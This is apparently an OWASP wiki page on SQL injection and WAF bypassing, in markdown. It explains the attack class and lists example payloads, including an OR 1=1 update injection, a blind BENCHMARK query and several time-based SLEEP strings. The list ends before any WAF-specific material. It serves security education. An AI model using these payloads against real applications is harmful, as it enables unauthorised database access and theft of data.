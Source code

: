 ```yaml
---
title: SQL Injection Bypassing WAF
layout: col-sidebar
author:
contributors:
auto-migrated: 1
permalink: /attacks/SQL_Injection_Bypassing_WAF
---
```


{% include writers.html %}

## SQLi

A [SQL injection](SQL_injection) attack consists of insertion
or "injection" of a SQL query via the input data from the client to the
application. A successful SQL injection exploit can read sensitive data
from the database, modify database data (Insert/Update/Delete), execute
administration operations on the database (such as shutdown the DBMS),
recover the content of a given file present on the DBMS file system and
in some cases issue commands to the operating system. SQL injection
attacks are a type of [injection
attack](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection), in which SQL commands
are injected into data-plane input in order to effect the execution of
predefined SQL commands.

## SQL Injection – Basic Concepts

There are two types of SQL Injection

    • SQL Injection into a String/Char parameter
      Example: SELECT * from table where example = 'Example'

    • SQL Injection into a Numeric parameter
      Example: SELECT * from table where id = 123

1.  Exploitation of SQL Injection vulnerabilities is divided into
    classes according to the DBMS type and injection conditions.



    • A vulnerable request can get into Insert, Update, Delete, etc.
      Example: UPDATE users SET pass = '1' where user = 't1' OR 1=1--'

1.  Blind SQL Injection



```
 Example: select * from table where id = 1 AND if((ascii(lower(substring((select user()),$i,1))))!=$s,1,benchmark(200000,md5(now())))
```

    SLEEP(5)--
    SELECT BENCHMARK(1000000,MD5('A'));
    id=1 OR SLEEP(25)=0 LIMIT 1--
    id=1) OR SLEEP(25)=0 LIMIT 1--
    id=1' OR SLEEP(25)=0 LIMIT 1--
    id=1') OR SLEEP(25)=0 LIMIT 1--
    id=1)) OR SLEEP(25)=0 LIMIT 1--
    id=SELECT SLEEP(25)--
